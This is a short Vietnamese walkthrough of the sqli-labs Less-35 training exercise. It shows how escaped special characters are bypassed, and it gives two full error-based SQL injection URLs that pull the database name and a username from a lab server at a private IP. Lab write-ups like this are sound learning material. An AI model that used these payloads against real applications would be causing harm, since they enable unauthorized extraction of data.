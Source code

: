 # Less 35

Đề bài cho phép truyền vào ID từ URL

![](../images/sqli-labs/Less-35/01.png)

Thử truyền vào giá trị

![](../images/sqli-labs/Less-35/02.png)

Thử truyền tiếp vào các giá trị có thể dẫn đến lỗi

![](../images/sqli-labs/Less-35/03.png)

Ta thấy ở đây đã được thêm ký tự `\` vào các ký tự đặc biệt. Tôi tiếp tục thử để tìm cách injection thì khi tôi nhập vào thì tôi thấy

![](../images/sqli-labs/Less-35/04.png)

Như vậy dựa vào đây ta có thể khai thác DB

```
http://192.168.84.233/sqli-labs/Less-35/?id=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select database()), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-35/05.png)

Tương tự vậy khai thác các thông tin khác

```
http://192.168.84.233/sqli-labs/Less-35/?id=1 and (SELECT 0 FROM (SELECT count(*), CONCAT((select username from users limit 0,1), 0x23, FLOOR(RAND(0)*2)) AS x FROM information_schema.columns GROUP BY x) y) --+
```

![](../images/sqli-labs/Less-35/06.png)